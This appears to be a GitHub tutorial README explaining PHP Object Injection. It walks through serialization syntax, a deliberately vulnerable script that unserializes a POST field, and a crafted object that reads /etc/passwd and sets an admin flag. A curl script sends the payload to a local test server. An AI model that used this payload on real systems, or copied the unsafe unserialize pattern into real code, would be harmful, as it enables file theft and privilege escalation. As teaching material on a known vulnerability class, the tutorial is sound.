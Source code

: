 # PHP-Object-Injection

   PHP Object Injection enables the manipulation of an object content that shall be unserialized using the PHP unserialize() function. Thus, to fisrt understand the injection we may first understand the functions serialialize() and unserialize().
   
# Serealization and Deserealization.
   
   Developing web applications sometimes require to transfer data for storing, communication, logging, etc. This way the concepts of serealization and deserealization are born.<br>
     — Serialization is a process that converts an object into a specific structure data format such as convert Java Entity class to JSON format for sending via communication with other services or clients or maybe to storage.<br>
     — Deserialization is a process that converts data format into an object such as client sends requests as JSON data format and back end service convert it to Java Entity Class.<br>
   When receiving untrusted data without sufficient data verification a common vulnerability can be exploited, "Insecure Deserialization" that is in OWASP top 10 Web. 
   
# Exploiting Insecure Deserealization. 
   There are two things interconnected that we need to exploit this:<br>
   
   — The unserializacion of an object which manipulation is feasible from the user’s side (i.e. a cookie storing data as a serialized object)<br>
   — The use of a magic method (__wakeup, __destroy…) that can be abused in order to achieve interesting actions from a malicious user’s perspective (commands remote execution, file manipulation, etc.).

   Now that we know the concepts let's dive into the practice. Firsts things first, let's see how a serialized object looks like, we have a simple class "Users" that have two attributes(username, and isAdmin) and one simple method(PrintData), that verify if the user is or not an admin, then i just create an object and set the values of the attributes, the user is "JeJe" and isn't and admin.<br>
   
   ```php
   
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = new Users();
$obj->username = 'JeJe';
$obj->isAdmin = False;

echo serialize($obj);

```
After the echo, using the php interpreter the output is:<br> 

![Alt text](/images/1.png)

O:5:"Users":2:{s:8:"username";s:4:"JeJe";s:7:"isAdmin";b:0;}<br>

   The syntax of the serialized string is relatively easy to understand: The O stands for the type of the serialized string. In this case the O maps to a PHP object. The 5 seperated by the colons represents the length of the name of the obj, so the structure is like "type:lenght:value". The 2 means that the object has two attributes, then the same logic is implemented to the attributes of the class inside of the brackets, 's' for strings and 'b' for boolean.<br>

   Now that we saw how an serialized object looks like let's implement a simple logic to see how we can exploit this. First let's change a litle bit the code, now there is another class in the same file that can read files from the system with the variable "filename".<br>
   
```php
class ReadFile{
 
      public function __tostring(){
             return file_get_contents($this->filename);      
      }

}
class Users{

      public $username;
      public $isAdmin;

      public function PrintData(){
             if($this->isAdmin){
               echo $this->username . " is an admin\n"; 
             }else{
               echo $this->username . " is not an admin\n";
             }
      }
}

$obj = unserialize($_POST['jeje']);
$obj->PrintData();
```

So if supposing that we found this code from a website and we want to verify if the code is vulnerable, looking at the code they are receiving some serialized object from a POST request that has a field 'jeje', and calling the method PrintData() to show if the user is an admin. So we can make a POST request whith the field 'jeje' containing a serialized object that we want, so let's do that.

First we have to create a class with the same attributes and everything, because the object must be equal to the original but with some malicious modifications that won't be noticed. 

```php
class ReadFile{
      
      public function __construct(){
             $this->filename = "/etc/passwd";
      }
}

class Users{

     public function __construct(){
            $this->username = new ReadFile();
	         $this->isAdmin = True;
     }
     
}

$obj = new Users();

echo serialize($obj);
echo "\n";
```

   The modification that i made was adding a constructor method, that is called every time that an object is created, so when the object from the class Users is created the "contructor" is called and it's gonna set the value of the username to another object from the class ReadFile(the class that can read a file from the system), then the constructor of the ReadFile class is called because an object from this class was set to the variable "username". Inside of the constructor the variable "filename" is set to a name from a file that i want to read.<br>

   Everything done we can create the serialized object from this malicious code that we want to inject:

![Alt text](/images/3.png)
   
   Now let's make the POST request with the serialized object that was created. To do this i created a local web server on machine with the original users.php file, to be the target. Before as you can se if i change the content from the field "b:0;" i can turn the user "jeje" in admin, because the value 0 is for the variable "isAdmin" and how it's boolean if i set to "1" i can become the admin.<br>
   
![Alt text](/images/2.png)

Making the request i can now become the admin and read the file "/etc/passwd".

![Alt text](/images/4.gif)
   
obs: the exploit.sh contains the same code from the other image (curl -XPOST...) i just write this in a script to avoid write this everytime that i needed. The content:<br>

```php
#!/bin/bash
curl -XPOST -d "jeje=$1" 127.0.0.1:80/users.php
```

Anyways that was a simple example to you understand how this attack can be exploited, hope u liked :-).   
   

